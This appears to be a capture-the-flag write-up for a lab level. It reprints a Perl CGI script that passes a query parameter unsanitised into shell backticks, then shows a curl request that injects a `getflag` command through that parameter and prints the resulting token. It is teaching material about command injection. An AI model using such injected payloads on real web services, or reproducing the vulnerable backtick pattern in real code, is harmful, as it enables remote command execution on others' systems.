 # Level04 Solution

## Steps:
1. Connected via SSH: `ssh level04@192.168.16.128 -p 4242`
2. Found a Perl script in the home directory:
   - File: `/home/user/level04/level04.pl`
   - Code:
     ```perl
     #!/usr/bin/perl
     use CGI qw{param};
     print "Content-type: text/html\n\n";
     sub x {
       $y = $_[0];
       print `echo $y 2>&1`;
     }
     x(param("x"));
     ```
3. Identified the vulnerability:
   - The script uses backticks \`echo $y\` to execute a shell command.
   - The user input `$y` (from the query parameter `x`) is directly inserted into the command without sanitization.
   - This allows **command injection**.
4. Exploited the vulnerability via curl:
   - Command:
     ```bash
     curl http://localhost:4747?x='`getflag`'
     ```
   - This injects `getflag` into the shell command, which is executed by the Perl script.
5. Obtained the token:
   - Output: `Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap`

## Notes:
- The Perl script is a CGI script that runs a web server on port 4747.
- Backticks in Perl execute shell commands, so user input must be sanitized.
- The injection `\`getflag\`` is passed via the `x` parameter and executed.

## Tools used:
- `curl` (to send the HTTP request)
- Command injection technique

## Vulnerability:
- Command injection via unsanitized user input in backticks.